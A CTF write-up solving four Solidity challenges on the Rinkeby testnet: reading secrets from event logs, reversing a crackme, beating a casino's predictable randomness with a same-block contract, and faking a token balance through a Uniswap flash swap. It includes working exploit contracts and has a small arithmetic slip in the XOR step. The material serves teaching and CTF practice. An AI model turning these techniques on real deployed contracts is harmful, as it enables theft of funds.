







# Blockchain

- [Blockchain](#blockchain)
  - [sanity check](#sanity-check)
    - [Cheeky Way](#cheeky-way)
  - [secure_enclave](#secure_enclave)
  - [crackme.sol](#crackmesol)
    - [Cheeky Way](#cheeky-way-1)
  - [crypto casino](#crypto-casino)
    - [Cheeky Way](#cheeky-way-2)
  - [RICH CLUB](#rich-club)
    - [The Correct Way To Do It](#the-correct-way-to-do-it)
      - [The Exploit](#the-exploit)
      - [The Problem](#the-problem)

Most of these challenges had two possible solutions,
the intended solution and the cheeky solution.
I'll start with the intended solutions and go through the cheeky one in the end.

Notice that you can do all these challenges yourself.
Since **_nothing leaves the chain_**.

An Ethreum wallet is required. For this writeup though, I assume you have one.

> *If you do not have a wallet, head on to <https://hackernoon.com/how-to-use-remix-and-metamask-to-deploy-smart-contracts-on-the-rsk-testnet-zt393xfz>, the link goes through the necessary details to setup a Metamask wallet and Remix.*

## sanity check

We were given an address (`0x5CDd53b4dFe8AE92d73F40894C67c1a6da82032d`) and a contract which is fairly simple:

```solidity
pragma solidity ^0.7.0;
//SPDX-License-Identifier: UNLICENSED

contract sanity_check {
    function welcome() public pure returns (string memory){
        return "flag{}";
    }
}
```

We just need to call the contract and get the flag.
To do so we can setup an elaborate JS environment with truffle and friends,
or we can use the Remix IDE (https://remix.ethereum.org/).

Create a file and put the contract source there.
Once compiled, the *Deploy & Run Transactions* tab should look like this:



Adding the challenge address to that *At Address* and clicking on it should add a new contract to the *Deployed Contracts* below.
Click on the `welcome` function, the flag should appear.



> If nothing appears, try to reload the page. Remix can be a bit temperamental.

### Cheeky Way

Search for the contract on Etherscan, decompile it, get the flag.

<https://rinkeby.etherscan.io/bytecode-decompiler?a=0x5cdd53b4dfe8ae92d73f40894c67c1a6da82032d>

## secure_enclave

For this challenges we were given a "secure" enclave.
In this case, a wallet owner can set a secret and only the owner can read it back.

```solidity
pragma solidity ^0.6.0;

contract secure_enclave {
    event pushhh(string alert_text);

    struct Secret {
        address owner;
        string secret_text;
    }

    mapping(address => Secret) private secrets;

    function set_secret(string memory text) public {
        secrets[msg.sender] = Secret(msg.sender, text);
        emit pushhh(text);
    }

    function get_secret() public view returns (string memory){
        return secrets[msg.sender].secret_text;
    }
}
```

To achieve this, the contract uses that `mapping` which is a map between addresses and `Secret`.
So our only option to retrieve the secret would be to guess the flag's owner address and pretend to be them.
That does not sound easy, and it is not even possible without getting access to the original wallet.

However, whenever a secret is stored a message is emitted.
Emitted events are stored in the transactions logs, they are used as debug and auditing tools.
Since they are stored in the logs, and logs are permanent, sensitive information should not be logged.

> Read more about events in <https://docs.soliditylang.org/en/v0.8.0/contracts.html#events>.

Notice how whenever a secret is set, an event is emitted.
This means that at a given time the flag was probably logged, we just need to retrieve it.
To do so we search for the challenge address (`0x9B0780E30442df1A00C6de19237a43d4404C5237`) in <https://rinkeby.etherscan.io/>.

> Etherscan is where you can search for transactions, wallets and more. If it has an address, it is probably there.

Going back to the start of transactions in <https://rinkeby.etherscan.io/txs?a=0x9B0780E30442df1A00C6de19237a43d4404C5237>
shows us a series of transactions from the same account that issued the contract. Bingo.
We just need to search the logs one by one until we get the flag.

For example: The first transaction stored the value `first`.




> To convert from hexadecimal to text, select the menu on the numbers left and select `Number`.




## crackme.sol

This one almost *cracked me* (get it?), but I'll get to why later. We are given a crack me:

```solidity
pragma solidity ^0.6.0;

contract crack_me{

    function gib_flag(uint arg1, string memory arg2, uint arg3) public view returns (uint[]){
        //arg3 is a overflow
        require(arg3 > 0, "positive nums only baby");
        if ((arg1 ^ 0x70) == 20) {
            if(keccak256(bytes(decrypt(arg2))) == keccak256(bytes("offshift ftw"))) {
                uint256 check3 = arg3 + 1;
                if( check3< 1) {
                    return flag;
                }
            }
        }
        return "you lost babe";
    }

    function decrypt(string memory encrypted_text) private pure returns (string memory){
        uint256 length = bytes(encrypted_text).length;
        for (uint i = 0; i < length; i++) {
            byte char = bytes(encrypted_text)[i];
            assembly {
                char := byte(0,char)
                if and(gt(char,0x60), lt(char,0x6E))
                { char:= add(0x7B, sub(char,0x61)) }
                if iszero(eq(char, 0x20))
                {mstore8(add(add(encrypted_text,0x20), mul(i,1)), sub(char,16))}
            }
        }
        return encrypted_text;
    }
}
```

When we put this code in Remix, we immediately notice it does not compile.
So we whip up real quick to make it compile, like changing the output to `string memory` and make the flag variable a `string`. Like this:

```solidity
function gib_flag(uint arg1, string memory arg2, uint arg3) public view returns (string memory){
    //arg3 is a overflow
    require(arg3 > 0, "positive nums only baby");
    if ((arg1 ^ 0x70) == 20) {
        if(keccak256(bytes(decrypt(arg2))) == keccak256(bytes("offshift ftw"))) {
            uint256 check3 = arg3 + 1;
            if (check3 < 1) {
                return "flag";
            }
        }
    }
    return "you lost babe";
}
```

Let's start reversing. We can start by the `gib_flag` function.
It takes three arguments: `uint arg1`, `string memory arg2`, `uint arg3`.

Line by line we read straight away:

```solidity
//arg3 is a overflow
require(arg3 > 0, "positive nums only baby");
```

So the author told us what to do and we can check that it is an overflow in the last check:

```
uint256 check3 = arg3 + 1;
if (check3 < 1) {
    return "flag";
}
```

So `arg3` must be `2 ** 256 - 1`.
Moving on to the remaining arguments, we see that `arg1 ^ 0x70` must be equal to `20`.
This is also easy, we have `a ^ b = c` where we know `b` and `c`, so we XOR them together and get the result.
`0x70 ^ 0x20 = 80`, `arg1` is done.

Moving on to the last and most difficult.
I started reversing it by hand and noticed it was some kind of Caesar cipher.
But then I noticed I could fairly easy manipulate the characters one by one and crack it that way.

Since the decrypt function was private, I copied the code to a separate contract, deployed it started experimenting.
You can access it here (`0x71018b714767d056edBcf788bb8494AEE2e129f4`).

```solidity
contract helper {
    function decrypt(string memory encrypted_text) public pure returns (string memory){
        uint256 length = bytes(encrypted_text).length;
        for (uint i = 0; i < length; i++) {
            byte char = bytes(encrypted_text)[i];
            assembly {
                char := byte(0,char)
                if and(gt(char,0x60), lt(char,0x6E))
                { char:= add(0x7B, sub(char,0x61)) }
                if iszero(eq(char, 0x20))
                {mstore8(add(add(encrypted_text,0x20), mul(i,1)), sub(char,16))}
            }
        }
        return encrypted_text;
    }
}
```

While I did it the dumb way, the smart way was noticing the shift would wrap around for lowercase letters,
see that it was a ROT16 cipher and go to CyberChef <https://gchq.github.io/CyberChef/#recipe=ROT13(true,true,16)&input=b2Zmc2hpZnQgZnR3> to find that `arg2` is `evvixyvj vjm`.

We have our ingredients to lets try to get the flag.
Add the address of the contract as we did with the first contract,
get the small window on remix and send:



So what happened? Remember how we switched the function signature to `string`?
That's the problem (the start). Let us change it back to `uint[]`, keep the `memory` and replace the strings with `new(uint[])`.
Use the `At Address` again and retry.



> So what now?

See the problem is we did not give a size for the flag.
The array must have a size in the return function.
Give it one like `256`, make sure there is enough space!

About the return value, create a variable like `uint256[256] memory f` and just return that.



I'll drop the charade now, the correct size is `26`.
How did I figure it out? By starting at `1` and changing incrementally.

```python
flag = [67,48,110,103,114,64,55,53,95,89,48,117,95,67,82,64,67,75,51,68,95,109,51,56,53,52]
print("".join(map(chr, flag))
> 'C0ngr@75_Y0u_CR@CK3D_m3854'
```

How could you know the array size?
You could decompile the code and notice the `while idx < 26` there.

### Cheeky Way

Just like the first, decompile and look at the code (<https://rinkeby.etherscan.io/bytecode-decompiler?a=0xdb2f21c03efb692b65fee7c4b5d7614531dc45be>).

You'll notice this block of code:
```
mem[_40] = 51
mem[_40 + 32] = 64
mem[_40 + 64] = 30
mem[_40 + 96] = 23
mem[_40 + 128] = 2
mem[_40 + 160] = 48
mem[_40 + 192] = 71
mem[_40 + 224] = 69
mem[_40 + 256] = 47
mem[_40 + 288] = 41
mem[_40 + 320] = 64
mem[_40 + 352] = 5
mem[_40 + 384] = 47
mem[_40 + 416] = 51
mem[_40 + 448] = 34
mem[_40 + 480] = 48
mem[_40 + 512] = 51
mem[_40 + 544] = 59
mem[_40 + 576] = 67
mem[_40 + 608] = 52
mem[_40 + 640] = 47
mem[_40 + 672] = 29
mem[_40 + 704] = 67
mem[_40 + 736] = 72
mem[_40 + 768] = 69
mem[_40 + 800] = 68
```

Followed by `mem[(32 * idx) + _35] = uint8(112 xor mem[(32 * idx) + _40])`. So we can just.

```python
enc_flag = [51,64,30,23,2,48,71,69,47,41,64,5,47,51,34,48,51,59,67,52,47,29,67,72,69,68]
print("".join([chr(c ^ 112) for c in enc_flag]))
> 'C0ngr@75_Y0u_CR@CK3D_m3854'
```

Easy.

## crypto casino

This one is fairly easy and the exploit is really cool.

```solidity
pragma solidity ^0.6.0;

contract casino {
    bytes32 private seed;
    mapping(address => uint) public consecutiveWins;

    constructor () public{
        seed = keccak256("satoshi nakmoto");
    }

    function bet(uint guess) public{
        uint num = uint(keccak256(abi.encodePacked(seed, block.number))) ^ 0x539;
        if (guess == num) {
            consecutiveWins[msg.sender] = consecutiveWins[msg.sender] + 1;
        } else {
            consecutiveWins[msg.sender] = 0;
        }
    }

    function done() public view returns (uint16[] memory) {
        if (consecutiveWins[msg.sender] > 1) {
            return [];
        }
    }
}
```

We need to guess the result twice to get the flag.
Everything is deterministic, the seed, the XOR, the hash and the ABI call.
Almost everything! The `block.number` is not.

Before searching Google, how could we guess it?
Maybe see the last block by hand and try.
But that would not work, the transactions are queued, and we never know the final block.
We could bruteforce it but whenever one guess fails we are back to the start.

So, searching Google on how to predict the block number you would probably find this:
<https://medium.com/@saurfang/lets-play-capture-the-ether-lotteries-part-ii-478365775a34>.

Reading through it you'll find that *you* can't predict the block number.
But your contract can.
And Ethereum has this *looking back its obvious property* that if the contract calls another one,
all operations must be put into the same block, for consistency reasons.

So, to break the casino you just need to replicate the "random" number generation and call the bet twice from your code.
The exploit looks like the following:

```solidity
contract exploit {
    bytes32 private seed;
    constructor () public{
        seed = keccak256("satoshi nakmoto");
    }

    function bet() public {
        uint num = uint(keccak256(abi.encodePacked(seed, block.number))) ^ 0x539;
        casino c = casino(0x186d5d064545f6211dD1B5286aB2Bc755dfF2F59);
        c.bet(num);
        c.bet(num);
    }
}
```

After running you can call `consecutiveWins` on the contract they gave you (0x186d5d064545f6211dD1B5286aB2Bc755dfF2F59).
To get the flag you need to call done, the strategy to get the array size is the same as the previous challenge.

```python
flag = [102,108,97,103,123,68,51,67,78,55,82,64,108,49,90,51,68,95,67,64,53,49,78,48,83,95,53,117,99,107,53,51,49,125]
"".join(map(chr, flag))
> flag{D3CN7R@l1Z3D_C@51N0S_5uck531}
```

### Cheeky Way

Just like the previous challenge, head on to <https://rinkeby.etherscan.io/bytecode-decompiler?a=0x186d5d064545f6211dD1B5286aB2Bc755dfF2F59> and decompile the code.

The values are different but that is not a problem.

```
mem[4448] = 51000
mem[4480] = 15 * 3600
mem[4512] = 48500
mem[4544] = 51500
mem[4576] = 61500
mem[4608] = 34000
mem[4640] = 25500
mem[4672] = 33500
mem[4704] = 39000
mem[4736] = 27500
mem[4768] = 41000
mem[4800] = 32000
mem[4832] = 15 * 3600
mem[4864] = 24500
mem[4896] = 45000
mem[4928] = 25500
mem[4960] = 34000
mem[4992] = 47500
mem[5024] = 33500
mem[5056] = 32000
mem[5088] = 26500
mem[5120] = 24500
mem[5152] = 39000
mem[5184] = 24000
mem[5216] = 41500
mem[5248] = 47500
mem[5280] = 26500
mem[5312] = 58500
mem[5344] = 49500
mem[5376] = 53500
mem[5408] = 26500
mem[5440] = 25500
mem[5472] = 24500
mem[5504] = 62500
```

Just do the same as they do: `mem[(32 * idx) + 2272] = uint16(mem[(32 * idx) + 4478 len 2] / 500)`

```python
enc_flag = [51000,15 * 3600,48500,51500,61500,34000,25500,33500,39000,27500,41000,32000,15 * 3600,24500,45000,25500,34000,47500,33500,32000,26500,24500,39000,24000,41500,47500,26500,58500,49500,53500,26500,25500,24500,62500]
print("".join([chr(c // 500) for c in enc_flag]))
> flag{D3CN7R@l1Z3D_C@51N0S_5uck531}
```

## RICH CLUB

This final challenge was added as a tie-breaker. It was awful and as far as I am aware no one actually pulled off the correct way to solve the challenge.
I'll start by discussing the contract and then introduce the solution I used and the solution I should have used.

```solidity
pragma solidity ^0.6;
//SPDX-License-Identifier: MIT

interface ERC20 {
    function balanceOf(address account) external view returns (uint256);
}

contract RICH_CLUB {
    ERC20 UNI;
    event new_member(string pub_key);
    event send_flag(string pub_key, string flag);

    constructor() public{
        UNI = ERC20(0x1f9840a85d5aF5bf1D1762F925BDADdC4201F984);
    }

    function grant_membership(string memory _pub_key) public {
        require(bytes(_pub_key).length > 120, "invalid public key");
        require(UNI.balanceOf(msg.sender) >= 6e20, "you don't look rich to me");
        emit new_member(_pub_key);
    }

    function grant_flag(string memory _pub_key, string memory encoded_flag) public{
        require(msg.sender == address(0x30cE246A1282169895bf247abaE77BA69d5B2416), "you don't have access to this");
        emit send_flag(_pub_key, encoded_flag);
    }
}
```

The contract is simple, there are two functions `grant_membership` and `grant_flag`.
We are supposed to enter the club and a bot should grant us membership.
To enter the club, we send a public key and the function will check if we meet the requirements.

The public key had to be Ethereum compliant, which is `secp256k1`, you can generate a key-pair with `openssl`.
See here for more <http://www.herongyang.com/EC-Cryptography/EC-Key-secp256k1-with-OpenSSL.html>.

So, after generating a valid key we need to pass the second check, having `6e20` UNI coins in our account.
This is around 10 ETH, which we can easily get from a faucet.
To get the coin can go to <https://app.uniswap.org/#/swap> and swap them out.

This would yield the required coin, we would pass the check and an encrypted flag would be emitted.

> This is the only challenge that is not doable after the CTF since the flag emitter is a bot.
> I believe the bot is probably down.

The successful transaction looks like this: <https://rinkeby.etherscan.io/tx/0x0a60eb958bd34785c3e4cf06ad961ad66c1ac04401ad6ffb4cbb158e32eba46f#eventlog>.
The reply is in: <https://rinkeby.etherscan.io/tx/0xc5c7c98c7336422a3df076766444399ded7d68a907678f26950ec95264e1febc#eventlog>.

Converting the second part of the log to text would yield a Python byte string which we had to decrypt.
To do so, I used `ecies` (<https://github.com/ecies/py> their page is great to know more!).

You would write the following code (where `k` is your private key and `i` the received byte string).

```python
import ecies
ecies.decrypt(k, i)
> b'flag{l0@ns_ar3nt_7ha7_b@d_tbh8877}'
```

### The Correct Way To Do It

So, what makes this the right way to do it? Well, the admins said so.
I'll walk you through my process.

When the challenge came out, I had been snooping around the authors contracts.
While I didn't find anything interesting before, I did after.
I noticed the author of the challenge contract deployment had made some transactions to the contract, which failed.

This was one of them: <https://rinkeby.etherscan.io/tx/0xd69cc825db48b8d7083f76622002e3cbdba692444262a74c1b06bbead20c2576>.
Clicking in see more we can see:

```
Function: flashSwap(address _tokenBorrow, uint256 _amount, address _tokenPay, bytes _userData) ***

MethodID: 0x0322c064
[0]:  0000000000000000000000001f9840a85d5af5bf1d1762f925bdaddc4201f984
[1]:  00000000000000000000000000000000000000000000002086ac351052600000
[2]:  0000000000000000000000001f9840a85d5af5bf1d1762f925bdaddc4201f984
[3]:  0000000000000000000000000000000000000000000000000000000000000080
[4]:  0000000000000000000000000000000000000000000000000000000000000040
[5]:  f2d02606c02b1db40951e1dfc2432a851e41e652947d68ff009c0e09bb8990ea
[6]:  5417592a2785e4817d65a55c185d8f2be64643265a8b5464165f8e121cb75140
```

From here, I searched for `flashSwap` on Google and found Uniswap, which allows for such kind of transactions <https://uniswap.org/docs/v2/smart-contract-integration/using-flash-swaps/>.
So why is this relevant?

Flash swaps allow you to pretend to have the tokens, you ask for them to Uniswap,
they lend you the tokens and in the end of the transaction you return them.

This is all fine and dandy until you notice the API is a mess and imports in Remix don't really work that well.
During my search for a better method I found: <https://github.com/Austin-Williams/uniswap-flash-swapper>, which is the actual code used in the previous Etherscan link.

#### The Exploit

Following the provided examples, getting the code to run is easy.

```solidity
contract ExampleContract is UniswapFlashSwapper {
    constructor(address _DAI, address _WETH) public UniswapFlashSwapper(_DAI, _WETH) {}

    function flashSwap(address _tokenBorrow, uint256 _amount, address _tokenPay, bytes calldata _userData) external {
        startSwap(_tokenBorrow, _amount, _tokenPay, _userData);
    }

    function execute(address _tokenBorrow, uint _amount, address _tokenPay, uint _amountToRepay, bytes memory _userData) internal override {
        RICH_CLUB club = RICH_CLUB(0xC7bEc01281648D3A7F9BB86B811A2de5B1E0cc61);
        string memory pub_key = "04df58e67b36a2de27b51e3673ed0040db93a44c71029071170dca30d98fb65b5b34b2c3009f3e031640f46924967db0651a750052a1cdafa577a50d0883ed1808";
        club.grant_membership(pub_key);
    }
}
```

Now you deploy with the ERC20 (`0x1f9840a85d5aF5bf1D1762F925BDADdC4201F984`) and WETH (`0xc778417E063141139Fce010982780140Aa0cD5Ab`) addresses and call the `flashSwap` functions with the following parameters:
- `0x1f9840a85d5aF5bf1D1762F925BDADdC4201F984`
- `600000000000000000000`
- `0xc778417E063141139Fce010982780140Aa0cD5Ab`
- `[0]`

This would execute the trade and call the function in `execute`.

You could also deploy a contract that did all this for you, in this case the contract would encode the function `f()` and pass it as bytecode:

```solidity
contract Exploit {
    function f() public {
        RICH_CLUB club = RICH_CLUB(0xC7bEc01281648D3A7F9BB86B811A2de5B1E0cc61);
        string memory pub_key = "04df58e67b36a2de27b51e3673ed0040db93a44c71029071170dca30d98fb65b5b34b2c3009f3e031640f46924967db0651a750052a1cdafa577a50d0883ed1808";
        club.grant_membership(pub_key);
    }

    function run() public {
        ExampleContract ec = ExampleContract(0xE1637EDDFaeabbfd9FE616E34581D62D0E839368);
        bytes memory payload = abi.encodeWithSignature("f()");
        ec.flashSwap(0x1f9840a85d5aF5bf1D1762F925BDADdC4201F984, 600000000000000000000, 0xc778417E063141139Fce010982780140Aa0cD5Ab, payload);
    }
}
```

This would grant you membership and allow you to access the club.
I was ready to first blood the challenge, so what went wrong?

#### The Problem

The code wouldn't work, why? I still don't know, but I knew for sure it ran all the functions right.
From my experiments, it was not my problem, but rather the code I got from GitHub.
I believe it was not returning the tokens correctly.

I also did not find the error since the error was `[object Object]`.
*Remix being helpful*.
